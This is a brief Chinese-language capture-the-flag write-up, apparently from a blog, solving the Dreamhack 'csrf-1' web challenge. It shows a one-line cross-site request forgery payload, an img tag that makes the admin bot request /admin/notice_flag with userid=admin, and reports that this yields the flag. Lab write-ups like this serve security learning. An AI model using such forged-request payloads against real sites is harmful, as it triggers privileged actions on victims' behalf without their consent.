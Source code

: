 ```yaml
---
title: csrf-1
published: 2025-02-20
updated: 2025-07-09
description: "Dreamhack"
image: ""
tags: ["CTF Writeup", "Dreamhack", "Web"]
category: "Dreamhack"
draft: false
---
```


# csrf-1

這次是會檢查透過 bot 進入到 `/admin/notice_flag` 頁面的參數有沒有包含 userid = "admin"

```javascript
<img src="/admin/notice_flag?userid=admin">
```

得到 flag

![flag](/assets/dreamhack/csrf/image.png)
